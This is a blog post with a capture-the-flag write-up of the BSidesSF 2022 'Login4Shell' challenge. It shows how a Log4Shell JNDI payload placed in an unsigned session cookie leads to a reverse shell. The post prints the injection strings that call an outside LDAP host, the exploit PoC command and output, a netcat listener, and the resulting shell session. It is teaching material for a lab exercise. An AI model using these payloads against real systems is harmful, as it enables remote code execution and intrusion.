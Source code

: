 ```yaml
---
layout: post
title: "BSidesSF 2022 CTF: Login4Shell"
category: Security
date: 2022-06-20
tags:
  - CTF
  - BSidesSF
---
```


[Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) was arguably the biggest
vulnerability disclosure of 2021.  Security teams across the entire world spent
the end of the year trying to address this bug (and several variants) in the
popular [Log4J](https://logging.apache.org/log4j/2.x/) logging library.

The vulnerability was caused by special formatting strings in the values being
logged that allow you to include a reference.  This reference, it turns out, can
be loaded via `JNDI`, which allows remotely loading the results as a Java class.

This was such a big deal that there was no way we could let the next BSidesSF
CTF go by without paying homage to it.  Fun fact, this meant I "got" to build a
Java webapp, which is actually something I'd never done from scratch before.
Nothing quite like learning about Jetty, Log4J, and Maven just for a CTF level.

<!--more-->

Visiting the given application, we see a basic page with options to login and
register along with a changelog:

![Login4Shell](/img/bsidessf/login4shell_home.png)

The changelog notes that the logger was "patched for Log4Shell" and that there
was previously support for sub-users in the format "user+subuser", but it has
alledgedly been removed.

Registering an account, we're requested to provide only a username.  The
password is given to us once we register.  Registering the username "writeup",
we get the password "7fAFsdYlz-oH".  If we login with these credentials, we now
see a link to a page called "Flag", as well as a "Logout" link.  Could we just
get the flag directly?  Let's check.

![Login4Shell Flag](/img/bsidessf/login4shell_flag.png)

Unfortunately, no such luck.  We're presented with a page containing the
following:

> Oh come on, it wasn't going to be that simple. We're going to make you work for this.
> 
> The flag is accessible at `/home/ctf/flag.txt`.
> 
> Oh yeah, your effort to get the flag has been logged. Don't make me tell you again.

Noting the combination of the logging bug mentioned on the homepage (and the
hint from the name of the challenge), as well as the message here about being
logged, perhaps this is a place we could do something.  Let's look for anywhere
accepting user input.

Other than the login and register forms, we find nothing interesting across the
entire app.  Attempting to put a log4shell payload into the login and register
forms merely obtains an error:

> Error: Username must be lowercase alphanumeric!

Taking a look at the login process, we see that we get handed a cookie
(`logincookie`) for the session when we login:

```
eyJ1c2VybmFtZSI6IndyaXRldXAiLCJwYXNzd29yZCI6IjdmQUZzZFlsei1vSCJ9
```

It might be an opaque session token, but from experience, I know that `ey` is
the base64 encoding of the opening of a JSON object (`{"`).  Let's decode it and
see what we get:

```
{"username":"writeup","password":"7fAFsdYlz-oH"}
```

Interestingly enough, our session cookie is just a JSON object that contains the
plaintext username and password for our user.  There's no obvious signature or
MAC involved.  Maybe we can tamper directly with the cookie.  If I change the
username by adding a letter, it effectively logs me out.  Likewise, changing the
password gives me the logged-out experience.

Looking back at the "subuser" syntax mentioned on the homepage, I decided to try
that directly with the cookie.  Setting the username to `writeup+a` with the
same password, the site seems to recognize me as logged-in again.  To check if
this field might be vulnerable without needing to setup the full exploit
ourselves, we can use the [Huntress Log4Shell
test](https://log4shell.huntress.com/).  Inserting the provided payload gives us
the following cookie:

```
{"username":"writeup+${jndi:ldap://log4shell.huntress.com:1389/d21b4a24-08c8-4d91-9da3-b12fa5f0a472}","password":"7fAFsdYlz-oH"}
eyJ1c2VybmFtZSI6IndyaXRldXArJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGwuaHVudHJlc3MuY29tOjEzODkvZDIxYjRhMjQtMDhjOC00ZDkxLTlkYTMtYjEyZmE1ZjBhNDcyfSIsInBhc3N3b3JkIjoiN2ZBRnNkWWx6LW9IIn0=
```

If we set our cookie to that value, then visit the `/flag` page again so our
attempt is logged, we *should* trigger the vulnerability, as we understand it so
far.  Doing so, then refreshing our page on Huntress shows the callback hitting
their server.  We've successfully identified a sink for the log4shell payload!
Now we just need to serve up a payload.

Unfortunately, this requires an internet exposed server.  There's a couple of
ways to do this, such as port forwarding on your router, a service like
[ngrok](https://ngrok.com), or running a VPS/Cloud Server.  In this case, I'll
use a VPS from [Digital Ocean](https://m.do.co/c/b2cffefc9c81).

I grabbed the [`log4j-shell-poc`](https://github.com/kozmer/log4j-shell-poc)
from `kozmer` to launch the attack.  This, itself, depends on the `marshalsec`
project.  This requires exposing 3 ports: LDAP on port 1389, a port for the
reverse shell, and a port for an HTTP server for the payload.  The LDAP server
will point to the HTTP server, which will provide a class file as the payload,
which launches a reverse shell to the final port.  We launch the PoC with our
external IP:

```
python3 ./poc.py --userip 137.184.181.246

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://137.184.181.246:1389/a}
```

After starting a netcat listener on port 9001, we send the provided string in
our username within the cookie and load the flag page again:

```
{"username":"writeup+${jndi:ldap://137.184.181.246:1389/a}","password":"7fAFsdYlz-oH"}
eyJ1c2VybmFtZSI6IndyaXRldXArJHtqbmRpOmxkYXA6Ly8xMzcuMTg0LjE4MS4yNDY6MTM4OS9hfSIsInBhc3N3b3JkIjoiN2ZBRnNkWWx6LW9IIn0=
```

Upon reloading, we see our netcat shell light up:

```
nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 35.247.118.88 36856
id
uid=2000(ctf) gid=2000(ctf) groups=2000(ctf)
cat /home/ctf/flag.txt
CTF{thanks_for_logging_in_to_our_logs_login_shell}
```
